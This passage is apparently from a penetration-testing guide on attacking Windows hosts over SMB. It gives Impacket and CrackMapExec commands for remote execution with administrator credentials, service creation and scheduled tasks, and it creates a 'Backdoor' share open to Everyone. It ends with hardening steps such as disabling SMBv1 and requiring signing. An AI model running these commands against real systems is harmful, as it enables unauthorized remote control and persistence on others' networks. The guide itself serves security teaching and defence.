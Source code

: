 Windows Management Instrumentation (WMI) can be leveraged over SMB connections.

```bash
# Using Impacket's wmiexec
wmiexec.py domain/administrator:password@192.168.1.10 "whoami"

# Using CrackMapExec
crackmapexec smb 192.168.1.10 -u administrator -p password -x "whoami" --exec-method wmiexec
```

### SCM (Service Control Manager) via SMB

```bash
# Using Impacket's services
services.py domain/administrator:password@192.168.1.10 create -name badservice -display Fake -path "cmd.exe /c calc.exe"
services.py domain/administrator:password@192.168.1.10 start -name badservice
services.py domain/administrator:password@192.168.1.10 delete -name badservice
```

## SMB Persistence

### Creating Admin Shares

```powershell
# PowerShell command to create a custom share
New-SmbShare -Name "Backdoor" -Path "C:\Windows\Temp" -FullAccess "Everyone"
```

### Using Scheduled Tasks via SMB

```bash
# Using Impacket's atexec
atexec.py domain/administrator:password@192.168.1.10 "cmd.exe /c whoami > C:\Windows\Temp\out.txt"
```

## Defending Against SMB Attacks

### Disable SMBv1

```powershell
# PowerShell command to disable SMBv1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 0 -Force

# Check if SMBv1 is disabled
Get-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

### Enable SMB Signing

```powershell
# Enable SMB signing
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" RequireSecuritySignature -Type DWORD -Value 1 -Force
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters" RequireSecuritySignature -Type DWORD -Value 1 -Force
```
